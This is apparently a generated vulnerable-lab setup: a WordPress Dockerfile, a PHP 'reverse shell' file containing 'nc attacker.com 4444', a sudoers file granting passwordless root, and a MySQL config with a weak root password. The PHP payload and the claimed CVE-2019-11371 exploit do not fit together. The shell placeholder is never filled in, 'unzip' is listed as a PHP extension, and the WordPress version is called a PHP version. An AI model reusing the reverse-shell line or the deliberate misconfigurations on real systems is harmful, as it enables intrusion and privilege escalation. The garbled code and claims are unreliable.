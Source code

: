1. Dockerfile:

```Dockerfile
FROM wordpress:4.9.2-php7.0-apache

# Install PHP extensions required for the vulnerability
RUN docker-php-ext-install zip unzip gmp

# Download and extract the vulnerable PHP file
COPY php-reverse-shell.zip /var/www/html/wp-content/
RUN cd /var/www/html/wp-content/ && unzip php-reverse-shell.zip

# Set the entry point to the PHP reverse shell script
ENTRYPOINT ["/var/www/html/wp-content/php-reverse-shell/php-reverse-shell.php"]
```

2. php-reverse-shell.zip (contains php-reverse-shell.php):

```php
<?php
// The shell command to execute (e.g., netcat, nc)
$shell = 'nc attacker.com 4444';

// The payload to exploit the CVE-2019-11371 vulnerability
$payload = 'O:8:"stdClass":1:{s:8:"unserialize";s:5:"{{shell}}";}';

// Base64 encode the payload
$encoded_payload = base64_encode($payload);

// Create the PHP reverse shell script
$shell_script = '<?php echo base64_decode("' . $encoded_payload . '"); ?>';

// Save the shell script to a file
file_put_contents('php-reverse-shell.php', $shell_script);
?>
```

3. sudoers file (/etc/sudoers):

```
root    ALL=(ALL:ALL) ALL
user    ALL=(ALL:ALL) ALL
user    ALL=(root) NOPASSWD:ALL
```

4. my.cnf (/etc/mysql/my.cnf):

```ini
[mysqld]
# Use a weak password for the MySQL root user
root-password = weakpassword
```

This setup includes a vulnerable WordPress installation with an outdated PHP version (4.9.2), a PHP reverse shell script to exploit the CVE-2019-11371 vulnerability, a misconfigured sudoers file for privilege escalation, and a weak password for the MySQL root user to gain access to sensitive data.